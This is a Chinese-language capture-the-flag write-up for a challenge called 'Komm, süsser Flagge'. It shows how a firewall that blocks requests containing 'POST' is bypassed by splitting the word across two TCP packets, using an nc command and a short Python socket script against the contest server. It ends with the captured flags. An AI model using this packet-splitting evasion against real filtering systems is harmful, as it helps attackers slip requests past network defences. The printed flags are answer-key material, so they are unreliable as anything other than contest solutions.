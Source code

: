 ## 18. Komm, süsser Flagge

### 尝试与解决

> 关键词：拆分数据包

#### 我的 POST

正常情况下一个 POST 请求是这样的：

```plain
POST / HTTP/1.1
Host: 202.38.93.111
Content-Length: 14

239:[redacted]
```

这样的请求文本可以通过 `nc 202.38.93.111:18080 < request1.txt` 发送给服务器。

而防火墙规则恰恰拦截了包含字符串 `POST` 的请求。HTTP 标准要求的 POST 格式必须包含完整的，ASCII 编码的 `POST`，大小写也不能互换，`main.go` 与 Golang 的 HTTP 库源代码也都表明了这一点。似乎没有办法绕过 `POST`。

然而，仔细思考，防火墙拦截的不是含 `POST` 的请求，而是含 `POST` 的 **TCP 数据包**！HTTP 是一种可以分块传输的协议，一个 TCP 数据包并不一定要包含完整的请求。于是，可以将单词 `POST` 拆分到两个数据包中。这一行为无法通过 `nc` 做到，可以用 Python socket 实现。

```python
import socket
from time import sleep

tcp_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server_addr = ("202.38.93.111", 18080)
tcp_socket.connect(server_addr)

data1 = '''PO'''
data2 = '''ST / HTTP/1.1
Host: example.com
Content-Length: 14

239:[redacted]
'''
# 注意 Content-Length 要与 token 实际长度匹配

tcp_socket.send(data1.encode())
sleep(1)
tcp_socket.send(data2.encode())
tcp_socket.send(''.encode())

msg = tcp_socket.recv(2048)
print(msg.decode())

tcp_socket.close()
```

立刻获得 flag。

#### 我的 P

这个防火墙规则似乎不太能看得懂，但是题目叫“我的 P”，为何不试试将 `P` 拆分到第一个数据包，其余拆分到第二个数据包呢？

```python
data1 = '''P'''
data2 = '''OST / HTTP/1.1
Host: example.com
Content-Length: 14

239:[redacted]
'''
# 注意 Content-Length 要与 token 实际长度匹配
```

Yes!

*这应该是个非预期解*

#### 我的 GET

这个服务器直接拒绝连接了，不太能想出来怎么搞。

### Flags

```plain
flag{ea5Y_sPl1tt3r_7ea4b86bcd}
```

Easy splitter. 指拆分数据包。

```plain
flag{r3s3rv3d_bYtes_b2a0c7be14}
```

Reserved bytes. 我不到啊
